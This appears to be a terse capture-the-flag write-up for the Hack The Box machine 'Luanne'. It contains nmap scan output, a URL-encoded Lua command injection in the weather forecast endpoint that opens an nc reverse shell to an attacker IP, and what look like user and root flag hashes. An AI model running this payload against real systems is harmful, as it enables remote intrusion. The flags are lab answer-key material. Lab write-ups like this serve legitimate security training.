


Luanne
Nmap
rning: 10.10.10.218 giving up on port because retransmission cap hit (6).
Nmap scan report for luanne.htb (10.10.10.218)
Host is up (0.056s latency).
Not shown: 65510 closed ports
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.0 (NetBSD 20190418-hpn13v14-lpk; protocol 2.0)
| ssh-hostkey:
| 3072 20:97:7f:6c:4a:6e:5d:20:cf:fd:a3:aa:a9:0d:37:db (RSA)
| 521 35:c3:29:e1:87:70:6d:73:74:b2:a9:a2:04:a9:66:69 (ECDSA)
|_ 256 b3:bd:31:6d:cc:22:6b:18:ed:27:66:b4:a7:2a:e4:a5 (ED25519)
80/tcp open http nginx 1.19.0
| http-auth:
| HTTP/1.1 401 Unauthorized\x0D
|_ Basic realm=.
| http-robots.txt: 1 disallowed entry
|_/weather
|_http-server-header: nginx/1.19.0
|_http-title: 401 Unauthorized
6118/tcp filtered tipc
7984/tcp filtered unknown
9001/tcp open http Medusa httpd 1.12 (Supervisor process manager)
| http-auth:
| HTTP/1.1 401 Unauthorized\x0D
|_ Basic realm=default
|_http-server-header: Medusa/1.12
|_http-title: Error response
10963/tcp filtered unknown
12403/tcp filtered unknown
18319/tcp filtered unknown
18367/tcp filtered unknown
19897/tcp filtered unknown
24838/tcp filtered unknown
25640/tcp filtered unknown
26573/tcp filtered unknown
29092/tcp filtered unknown
30713/tcp filtered unknown
32927/tcp filtered unknown
36193/tcp filtered unknown
38786/tcp filtered unknown
46577/tcp filtered unknown
59688/tcp filtered unknown
60434/tcp filtered unknown
60472/tcp filtered unknown
62490/tcp filtered unknown
63730/tcp filtered unknown
64417/tcp filtered unknown
Service Info: OS: NetBSD; CPE: cpe:/o:netbsd:netbsd
Service detection performed. Please report any incorrect results at
https://nmap.org/submit/
.
Nmap done: 1 IP address (1 host up) scanned in 1046.19 seconds
Web Dir
Shell
http://10.10.10.218/weather/forecast?city=London%27%29os.execute%28%27rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20-i%202%3E%261%7Cnc%2010.10.14.123%204567%20%3E%2Ftmp%2Ff%27%29%3B--
User

'
ea5f0ce6a917b0be1eabc7f9218febc0
Root

Root 2
7a9b5c206e8e8ba09bb99bd113675f66